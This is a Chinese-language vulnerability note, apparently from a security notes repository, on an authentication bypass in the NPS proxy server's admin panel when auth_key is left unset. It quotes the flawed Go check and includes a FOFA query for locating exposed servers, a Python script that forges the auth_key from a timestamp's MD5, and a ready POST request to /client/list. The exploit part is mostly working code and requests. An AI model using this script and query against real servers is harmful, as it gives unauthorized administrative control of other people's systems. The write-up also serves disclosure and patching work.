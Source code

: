 # NPS auth_key 未授权访问漏洞

## 漏洞描述

NPS auth_key 存在未授权访问漏洞，当 nps.conf 中的 auth_key 未配置时攻击者通过生成特定的请求包可以获取服务器后台权限

## 漏洞影响

```
NPS
```

## FOFA

```
body="serializeArray()" && body="/login/verify"
```

## 漏洞复现

登录页面

![image-20220824141041017](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202208241410172.png)

在 web/controllers/base.go 文件中

![image-20220824141203374](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202208241412535.png)

```
md5Key := s.getEscapeString("auth_key")
timestamp := s.GetIntNoErr("timestamp")
configKey := beego.AppConfig.String("auth_key")
timeNowUnix := time.Now().Unix()
if !(md5Key != "" && (math.Abs(float64(timeNowUnix-int64(timestamp))) <= 20) && (crypt.Md5(configKey+strconv.Itoa(timestamp)) == md5Key)) {
	if s.GetSession("auth") != true {
		s.Redirect(beego.AppConfig.String("web_base_url")+"/login/index", 302)
	}
} else {
	s.SetSession("isAdmin", true)
	s.Data["isAdmin"] = true
}
```

这里需要的参数为 配置文件 nps.conf 中的 auth_key 与 timestamp 的md5 形式进行认证，但在默认的配置文件中，auth_key 默认被注释，所以只需要可以获取到的参数 timestamp 就可以登录目标

![image-20220824141300327](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202208241413464.png)

```
import time
import hashlib
now = time.time()
m = hashlib.md5()
m.update(str(int(now)).encode("utf8"))
auth_key = m.hexdigest()

print("auth_key=%s&timestamp=%s" % (auth_key,int(now)))
```

验证POC

```
POST /client/list
  
search=&order=asc&offset=0&limit=10&auth_key=8c98b1bdedbc569c4e61eeaeb11ce772&timestamp=1659838908
```

![image-20220824141850731](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202208241418775.png)